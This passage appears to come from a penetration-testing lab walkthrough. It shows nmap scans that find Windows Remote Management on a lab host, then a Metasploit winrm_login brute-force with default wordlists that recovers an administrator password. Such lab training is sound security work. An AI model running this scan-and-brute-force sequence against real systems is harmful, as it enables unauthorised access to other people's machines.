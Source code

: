 


<br />

```bash
root@attackdefense:~# nmap 10.4.19.50 -p-
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-15 21:39 IST
Nmap scan report for 10.4.19.50
Host is up (0.0100s latency).
Not shown: 65521 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
47001/tcp open  winrm


root@attackdefense:~# nmap 10.4.19.50 -sV -p5985,47001
Starting Nmap 7.70 ( https://nmap.org ) at 2024-01-15 21:41 IST
Nmap scan report for 10.4.19.50
Host is up (0.0100s latency).

PORT      STATE SERVICE VERSION
5985/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

```

 winrm server is running on port 5985. By default WinRM service uses port 5985 for HTTP



<br />

**bruteforce winRM credentials using metasploit `scanner/winrm/winrm_login`**

```bash
msf > use scanner/winrm/winrm_login
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.4.19.50
RHOSTS => 10.4.19.50
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/winrm/winrm_login) > run

[+] 10.4.19.50:5985 - Login Successful: WORKSTATION\administrator:tinkerbell
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/winrm/winrm_login) > 

```

